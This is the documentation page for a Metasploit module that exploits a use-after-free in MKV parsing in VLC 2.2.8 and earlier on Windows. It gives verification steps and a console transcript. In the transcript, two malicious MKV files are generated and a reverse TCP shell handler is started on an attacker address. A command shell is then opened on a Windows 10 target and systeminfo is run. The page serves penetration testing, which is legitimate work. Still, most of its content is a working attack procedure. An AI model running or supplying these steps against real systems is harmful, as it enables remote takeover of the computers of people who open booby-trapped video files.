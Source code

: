 ## Description

VideoLAN VLC <= v2.2.8 (32 and 64 bit) are vulnerable to a use-after-free vulnerability that exists in the parsing of MKV files.

This module has been tested against 32 and 64 bit versions of VLC v2.2.8 on Windows 10 Pro x64.

## Vulnerable Application

[VLC](https://get.videolan.org/vlc/) <= v2.2.8

## Verification Steps

- `./msfconsole -q`
- `use exploit/windows/fileformat/vlc_mkv`
- `run`
- Start handler
- Copy over mkv files to target hosts and open part1 in VLC
- Set a shell

## Scenarios

### Windows 10 x64 running VLC 2.2.8 (x64)

```
msf > use exploit/windows/fileformat/vlc_mkv
msf exploit(windows/fileformat/vlc_mkv) > set lhost 172.22.222.134 
lhost => 172.22.222.134
msf exploit(windows/fileformat/vlc_mkv) > run

[+] tjub-part1.mkv stored at /home/msfdev/.msf4/local/tjub-part1.mkv
[*] Created tjub-part1.mkv. Target should open this file
[+] tjub-part2.mkv stored at /home/msfdev/.msf4/local/tjub-part2.mkv
[*] Created tjub-part2.mkv. Put this file in the same directory as tjub-part1.mkv
[*] Appending blocks to tjub-part1.mkv
[+] Successfully appended blocks to tjub-part1.mkv
msf exploit(windows/fileformat/vlc_mkv) > handler -p windows/x64/shell/reverse_tcp -H 172.22.222.134 -P 4444
[*] Payload handler running as background job 0.
msf exploit(windows/fileformat/vlc_mkv) > 
[*] Started reverse TCP handler on 172.22.222.134:4444 
[*] Sending stage (336 bytes) to 172.22.222.200
[*] Command shell session 2 opened (172.22.222.134:4444 -> 172.22.222.200:49731) at 2018-10-10 12:08:58 -0500
sessions -i 2
[*] Starting interaction with 2...

systeminfo
systeminfo

Host Name:                 DESKTOP-IPOGIJR
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.17134 N/A Build 17134
```

